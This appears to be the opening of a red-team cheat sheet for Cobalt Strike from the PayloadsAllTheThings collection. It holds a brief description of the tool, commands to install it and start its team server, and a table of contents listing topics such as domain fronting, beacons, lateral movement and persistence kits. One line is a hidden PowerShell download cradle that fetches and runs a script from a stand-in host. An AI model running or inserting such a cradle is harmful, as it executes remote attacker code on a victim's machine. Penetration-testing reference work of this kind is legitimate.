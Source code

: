 # Cobalt Strike

https://github.com/swisskyrepo/PayloadsAllTheThings/edit/master/Methodology%20and%20Resources/Cobalt%20Strike%20-%20Cheatsheet.md
> Cobalt Strike is threat emulation software. Red teams and penetration testers use Cobalt Strike to demonstrate the risk of a breach and evaluate mature security programs. Cobalt Strike exploits network vulnerabilities, launches spear phishing campaigns, hosts web drive-by attacks, and generates malware infected files from a powerful graphical user interface that encourages collaboration and reports all activity.


```powershell
$ sudo apt-get update
$ sudo apt-get install openjdk-11-jdk
$ sudo apt install proxychains socat
$ sudo update-java-alternatives -s java-1.11.0-openjdk-amd64
$ sudo ./teamserver 10.10.10.10 "password" [malleable C2 profile]
$ ./cobaltstrike
$ powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://campaigns.example.com/download/dnsback'))" 
```

## Summary

* [Infrastructure](#infrastructure)
    * [Redirectors](#redirectors)
    * [Domain fronting](#domain-fronting)
* [OpSec](#opsec)
    * [Customer ID](#customer-id)
* [Payloads](#payloads)
    * [DNS Beacon](#dns-beacon)
    * [SMB Beacon](#smb-beacon)
    * [Metasploit compatibility](#metasploit-compatibility)
    * [Custom Payloads](#custom-payloads)
* [Malleable C2](#malleable-c2)
* [Files](#files)
* [Powershell and .NET](#powershell-and-net)
    * [Powershell commabds](#powershell-commands)
    * [.NET remote execution](#net-remote-execution)
* [Lateral Movement](#lateral-movement)
* [VPN & Pivots](#vpn--pivots)
* [Kits](#kits)
    * [Elevate Kit](#elevate-kit)
    * [Persistence Kit](#persistence-kit)
    * [Resource Kit](#resource-kit)
    * [Artifact Kit](#artifact-kit)
    * [Mimikatz Kit](#mimikatz-kit)
    * [Sleep Mask Kit](#sleep-mask-kit)
    * [Thread Stack Spoofer](#thread-stack-spoofer)
* [Beacon Object Files](#beacon-object-files)
* [NTLM Relaying via Cobalt Strike](#ntlm-relaying-via-cobalt-strike)
* [References](#references)
